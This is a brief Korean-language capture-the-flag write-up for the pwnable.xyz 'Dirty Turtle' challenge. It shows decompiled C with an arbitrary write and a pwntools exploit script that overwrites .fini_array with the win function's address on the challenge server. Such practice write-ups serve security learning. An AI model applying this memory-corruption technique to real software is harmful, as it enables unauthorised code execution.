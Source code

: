 ```yaml
---
title: "[pwnable.xyz]Dirty Turtle"
date: 2020-2-2
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


원하는 주소에 원하는 값을 쓸 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  char *s; // [rsp+0h] [rbp-10h]
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  setup();
  puts("Dirty Turtle Off-RoadS");
  printf("Addr: ", argv);
  v3 = get_val();
  printf("Value: ", v3);
  v6 = get_val();
  if ( v6 )
    *s = v6;
  else
    puts(s);
  return 0;
}
```

.dtors 영역인 .fini_array을 win주소로 덮어주면 된다. 그러면 main함수 끝나고 win함수 호출된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30033)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':',str(0x0000000000600bc0)) # .fini_array
sa(':',str(e.symbols['win']))

p.interactive()
```

